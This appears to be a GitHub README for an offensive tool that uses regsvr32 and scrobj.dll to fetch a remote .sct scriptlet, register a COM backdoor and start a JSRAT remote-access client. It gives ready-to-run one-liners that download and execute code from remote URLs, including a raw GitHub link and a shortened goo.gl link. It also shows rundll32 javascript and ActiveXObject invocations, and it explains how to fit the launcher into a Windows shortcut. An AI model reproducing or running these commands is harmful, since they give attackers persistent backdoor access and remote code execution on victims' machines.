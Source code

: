 Another way of JSRAT on SCTPersistence.
---

Thanks to Casey Smith@subTee

https://github.com/subTee/SCTPersistence


His Way:


1.On host, execute regsvr32.exe /u /n /s /i:http://server/Backdoor.sct scrobj.dll


-The default is to use the path to a local file


-rewrite the regkey


-the Class definition comes form the interwebs http://server/c2.js


2.c2.js


-javascript payload


-.sct format


3.call the COM Object


-cmd


`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();x=new%20ActiveXObject("Component.Backdoor");x.Main();`


or


-js


`var x = new ActiveXObject("Component.Backdoor");
x.Main();
var x = new ActiveXObject("Component.Backdoor");
x.Exec();`


My Way:


1.On host, execute regsvr32.exe /u /n /s /i:http://server/Backdoor.sct scrobj.dll


-The default is to use the path to a local file


-Connect to the JSRAT server


2.call the COM Object


-cmd


`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();x=new%20ActiveXObject("Empire");x.Exec();`


-js


`var ref = new ActiveXObject("JSRAT");
ref.Exec();`




---
###Usage:

1.(local)


`regsvr32.exe /u /n /s /i:Backdoor.sct scrobj.dll`


or (remote)


`regsvr32.exe /u /n /s /i:http://example/Backdoor.sct scrobj.dll`


2.run BackdoorTest.js to start JSRAT



---
---

##ShortJSRAT
You can run the following code to start JSRAT:


`regsvr32 /s /n /u /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/ShortJSRAT.sct scrobj.dll`

###Why create this:

Limit command length to 260 characters.


When we create a Windows shortcut with personnalized icon to start JSRAT,the code of JSRAT is longer than 260charaters.


But we can use regsvr32.exe to run .sct file with very few letters.


What's more, the third-party link shortener Twitter can save more space.


Google url shortener,like this:


`regsvr32 /s /n /u /i:https://goo.gl/ijB12k scrobj.dll`







